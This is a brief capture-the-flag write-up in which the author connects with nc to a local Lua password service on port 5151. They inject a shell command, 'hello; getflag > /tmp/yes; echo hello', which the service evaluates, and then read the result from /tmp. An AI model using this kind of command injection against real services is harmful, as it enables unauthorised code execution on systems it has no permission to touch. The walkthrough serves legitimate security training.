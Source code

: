 We see a lua script checking a password, but sending nothing even in case of success...
Trying to run the script, we see that the address is already used.
indeed, nc into that address prompts us for a password:
```
nc 127.0.0.1 5151
```

the script show that is eval whatever string we send directly... seems unwise :
```
hello; getflag > /tmp/yes; echo hello
cat /tmp/yes
```
